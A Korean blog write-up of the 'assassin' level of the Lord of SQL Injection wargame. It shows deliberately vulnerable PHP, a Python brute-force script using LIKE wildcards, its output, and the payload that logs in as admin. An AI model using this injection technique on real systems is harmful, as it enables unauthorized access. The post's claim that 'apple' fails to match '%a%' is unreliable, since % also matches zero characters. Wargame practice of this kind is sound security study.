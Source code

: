 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - assassin 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번에는 문제 이름이 몬스터 이름이 아니다.  

`assassin` 문제인데, 개인적으로 재밌던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------
query : select id from prob_assassin where pw like ''
----------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

필터링이 `'(싱글쿼터)` 딱 한개만 있다.  

그리고 `=` 대신에 `like`이 쓰였다.  

처음에는 `'`를 우회하는 방법이 있을 거라고 생각 해 이 부분에 초점을 맞추어 문제를 풀어보려 했다.  

그런데 아무리 해도 우회를 하는 방법을 찾을수가 없었다.  

그러다 눈에 띈 부분이 왜 `=`가 아니라 `like`을 사용 했을까 였다.  

나는 단순히 `=`와 `like`가 동일하다고 생각했는데, 뭔가 다른 점이 있을 것 같았다.  

그래서 구글에 `mysql like`이라고 검색을 해봤는데, `%`를 알게 되었다.  

`like`을 사용한다면, `%`를 이용 해 특정 문자가 있는 행을 추출할 수 있다.  

예를 들어 아래와 같은 쿼리문이 있다고 가정해보자.  

```
select * from user where id like '%a%';
```

이 경우, `%`는 `모든 문자`를 의미하게 된다.  

때문에 `%a%`라고 한다면, `a`의 앞뒤로 어떠한 문자가 있는 경우를 말한다.  

즉, `man`, `woman` 등은 `a`의 앞뒤로 문자가 있어 조건에 부합하게 된다.  

반면 `apple`는 `a`의 앞에 문자가 없기 때문에 조건에 맞지 않는다.  

그래서 이 방법을 가지고 `assassin` 문제를 풀기로 했다.  

가장 먼저 테스트 한 것은 그냥 `%`만 입력 해 보는 것이었다.  

`pw`에 분명 문자가 있을테니, `pw`에 `뭐라도 문자가 있는 행`을 추출 해 보려 했다.  

그런데 `Hello guest`가 출력되었다.  

아마도 테이블에 `guest`가 `admin`보다 위에 있어 먼저 추출 된 것 같다.  

그래서 이번에는 `%a%` 형태로 만들어서 하나하나 테스트 해 보기로 했다.  

손으로 하려다가 귀찮아져서 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=%"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for i in range(48, 128):
	try:
		query = url + chr(i) + "%"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		flag += chr(i)
		print "[+] Found :", flag

print "[+] Found password : ", flag
print "[+] End"
```

그런데 결과가 안나왔다.(눙물...)  

그래서 이번에는 `Hello guest`가 출력되는 문자를 찾도록 조건문을 수정 해 다시 테스트 해 보았다.  

그 결과 아래와 같은 문자들을 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found : 0
[+] Found : 01
[+] Found : 012
[+] Found : 0129
[+] Found : 0129D
[+] Found : 0129DE
[+] Found : 0129DEF
[+] Found : 0129DEF_
[+] Found : 0129DEF_d
[+] Found : 0129DEF_de
[+] Found : 0129DEF_def
[+] Found password :  0129DEF_def
[+] End
```

아마도 테이블에서 `guest`와 `admin`의 `pw`가 같은 문자들로만 이루어져 있고, `guest`가 `admin`보다 위에 있어 `guest`만 출력되는 것 같다.  

그래서 저 문자를 적절하게 조합하면 `admin`을 얻을 수 있지 않을까 생각 해, 이것저것 시도 해 보다 보니 아래와 같이 입력했을 때 문제를 풀 수 있었다.  

```
?pw=%e%d%
```

```php
-------------------------------------------------------------------------------
query : select id from prob_assassin where pw like '%e%d%'
-------------------------------------------------------------------------------

Hello admin
ASSASSIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

`ASSASSIN Clear!!`
